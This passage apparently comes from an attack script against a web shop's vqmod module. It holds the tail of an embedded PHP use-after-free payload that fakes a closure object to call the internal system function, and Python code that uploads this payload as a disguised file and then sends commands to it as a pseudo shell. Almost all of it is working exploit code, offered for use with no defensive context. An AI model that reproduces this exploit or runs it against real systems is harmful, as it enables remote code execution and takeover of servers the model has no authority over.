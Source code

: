 ```py
    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];
    $helper = new Helper;
    $helper->b = function ($x) { };
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
    $closure_obj = str2ptr($abc, 0x20);
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
    ($helper->b)($cmd);
    exit();
}
?>
'''
    multipart_data = {
        'token' :(None, token),
        'vqmod': ('0x4rt3mis.php', data, "application/xml"),
        'upload' : (None,"Upload")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    print("[+] Malicious Uploadedeee !! [+]")
    
# Start the pseudo shell
def setPseudo(rhost):
    url = "http://%s/shop/vqmod/xml/0x4rt3mis.php" %rhost
    url_prefix = url + "?cmd=echo -n $(whoami)':'$(pwd):$ "
    req = r.get(url_prefix, proxies=proxies)
    prefix = req.text
    url_restore = url
    cmd = ""
```